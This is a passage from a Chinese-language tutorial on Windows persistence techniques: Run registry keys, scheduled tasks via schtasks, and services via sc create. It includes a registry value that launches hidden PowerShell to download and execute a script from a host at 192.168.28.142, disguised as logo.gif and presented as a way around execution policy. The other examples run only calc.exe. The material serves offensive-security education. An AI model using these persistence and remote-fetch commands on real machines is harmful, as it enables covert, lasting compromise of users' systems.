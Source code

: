 为 `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 添加一个值(名称为`Keyname`, 类型为 `REG_SZ`, 值为`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"`)

`/f` 表示强制覆盖当前现有注册表项.

其中值是使用`powershell` 执行的一段指令, 其含义为:

以不加载用户配置文件、不显示窗口的模式,远程执行`http://192.168.28.142:8888/logo.gif 的ps1`脚本

> 这里其实也算是一个 **strick** 了,使用 cmd 执行 powershell 远程执行powershell脚本时，会忽略 power shell的当前策略,能够直接运行.

## 进阶篇之计划任务

在 Windows 下,存在两种计划任务机制 `schtasks` 和 `at`,这里建议使用 `schtasks`,因为大多数版本已经废弃了 `at` 命令.

![20220622223038](http://particles.oss-cn-beijing.aliyuncs.com/img%5C90d4680bf36512a329b921b9e0d5d6b8.png)

![20220622223158](http://particles.oss-cn-beijing.aliyuncs.com/img%5Cccffc70dd724f8f3f3113e13a22c6942.png)

举个例子:

创建一个名为 `TEST_OnLogon` 的任务, 在每次用户登陆时,出发 `cmd.exe /c calc.exe` 命令:
```sh
schtasks /create /tn "TEST_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"
```
这里提一下 `/sc` 参数,

```
/sc 可指定以下参数,他们分别表示.
MINUTE、HOURLY、DAILY、WEEKLY、MONTHLY
指定计划的时间单位。

ONCE
任务在指定的日期和时间运行一次。

ONSTART
任务在每次系统启动的时候运行。可以指定启动的日期，或下一次系统启动的时候运行任务。

ONLOGON
每当用户（任意用户）登录的时候，任务就运行。可以指定日期，或在下次用户登录的时候运行任务。

ONIDLE
只要系统空闲了指定的时间，任务就运行。可以指定日期，或在下次系统空闲的时候运行任务。
```


## 进阶篇之服务自启动

类似于注册表自启动,不同的地方在于此时我们将需要启动的进程设置成为了服务.

![20220622230608](http://particles.oss-cn-beijing.aliyuncs.com/img%5C23096355d3e9bf48b797c3e9ad77d723.png)

举个例子:

创建一个名为 `demo` 的服务, 其启动方式为手动启动, 服务的内容为运行 `cmd.exe /c calc.exe`
```
sc create demo start= demand BinPath= "cmd.exe /c calc.exe"
```
![20220622231455](http://particles.oss-cn-beijing.aliyuncs.com/img%5C337bbd71c50978a4ade0b20b1a07916d.png)
